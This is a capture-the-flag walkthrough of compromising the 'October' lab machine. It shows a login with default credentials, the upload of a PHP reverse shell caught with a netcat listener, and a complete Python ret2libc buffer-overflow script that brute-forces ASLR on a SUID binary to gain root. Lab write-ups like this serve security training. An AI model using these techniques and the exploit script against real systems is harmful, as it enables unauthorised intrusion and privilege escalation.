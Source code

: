 # October

## Info
  * IP : 10.10.10.16
  * OS : Linux
  * Difficulty: Medium

## System Enumeration
 
### Nmap

![Nmap](boxImages/October/nmap.png "Nmap")

### Dirbuster

![Dirbuster](boxImages/October/dirbuster.png "Dirbuster")

### WebPortal

![Web Portal](boxImages/October/webportal.png "Vanilla CMS")

#### Backend

![Web Backend](boxImages/October/backend.png "October Backend")


## Exploitation
 
Trying the default user and password, i.e, `admin` and `admin`, we manage to get in and see that there is a media tab.  
This opens up the possibility of a reverse shell upload.  
Since the already uploaded file is in php5, I renamed my shell from php to php5, just to ensure that I'll be successful in uploading a shell.  

![PHP Uploaded](boxImages/October/uploadphp.png "PHP Shell")

We create a netcat listener on our local machine using `nc -lvnp 1234`.  
Click on the uploaded file and view it.  

And voila! We have a shell.

### User Exposed

Simple enumeration let's us find `user.txt` and read it even though we are `www-data`.

![User Exposed](boxImages/October/userExposed.png "Exposed User")

## Privilege Escalation

Now, to obtain `root.txt`, we need to escalate our privileges to root.  

As a first step, I always use `find / -perm -4000 -type f 2>/dev/null` to find SUID binaries and luckily enough, we find `/usr/local/bin/ovrflw`.  
Running `ovrflw` tells us that it needs an input string.  
This can be exploited using a Ret2Lib Attack.  

To debug further, I downloaded the binary to my local machine using base64 conversions.  
  1. On host machine, base64 /usr/local/bin/ovrflw  
  2. Copy the output and store it in a file on your machine  
  3. Use `base64 -d <localfile.b64> > ovrflw`  
  4. chmod +x ovrflw  
  5. gdb ovrflw  

Using `pattern_create 200`, we create a unique pattern of 200 characters and pass it to ovrflw as argument  

![Segmentation Fault](boxImages/October/segfault.png "Seg Fault")  

Now we use `pattern_offset <segfault_address>` to find where the buffer overflow occured.

![Offset Found](boxImages/October/offsetFound.png "Offset Found")  

### Creating a payload

Now, to successfully perform ret2lib attack, we have to perform buffer overflow by passing it to the binary `ovrflw`.  

Required addresses:
  * System address
  * Exit address(which can be anything)
  * Address of /bin/sh

But first we have to check if ASLR is enabled. If ASLR is enabled our <libbase> address keeps on changing and if not, we can simply use the addresses as we obtain them.  

To check if ASLR is enabled, simply use `ldd /usr/local/bin/ovrflw` 2 to 3 times:

![ASLR LDD](boxImages/October/ldd.png "ASLR is enabled")  

As can be observed from the screenshot, the libbase address changes everytime we use `ldd`.  

We will proceed to create our payload accordingly.  

Select any one of the addresses for libBase. I used the first one, i.e, `libbase = 0xb75c4000`
#### Getting Required Offsets

So we know that the libbase is at `/lib/i386-linux-gnu/libc.so.6`.  

To get our offsets, we are going to use the `readelf` command.  

Step 1: For system, we use `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`
	![System Offset](boxImages/October/systemOffset.png "Offset Found")  
Step 2: For exit, we use `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`
	![Exit Offset](boxImages/October/exitOffset.png "Offset Found")  
Step 3: For the offset of /bin/sh we have to use strings, i.e, `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh`
	![/bin/sh Offset](boxImages/October/binshOffset.png "Offset Found")  

Now we have all our offsets, it's time to create a payload.  

#### Creating bufferOverflow.py

```
import subprocess,struct

libBase = 0xb75c4000
system_Off = 0x00040310
exit_Off = 0x00033260
binsh_Off = 0x00162bac

system_addr = struct.pack("<I", libBase + system_Off)
exit_addr = struct.pack("<I", libBase + exit_Off)
binsh_addr = struct.pack("<I",libBase + binsh_Off)

payload = “A”*112
payload += system_addr
payload += exit_addr
payload += binsh_addr

i =0
while True:
    i+=1
    print “Attempts: ” + str(i)
    subprocess.call(["/usr/local/bin/ovrflw", payload])
```

The reason we added a loop is because the `libc` address is constantly changing. Therefore, to ensure that we reach the right libc address, we keep on running our script.  

### Execution

Simply execute `python bufferOverflow.py`.  

![Overflow](boxImages/October/bufferOverflow.png "Overflow")

And we are root:

![Pwnage](boxImages/October/owned.png "Rooted")
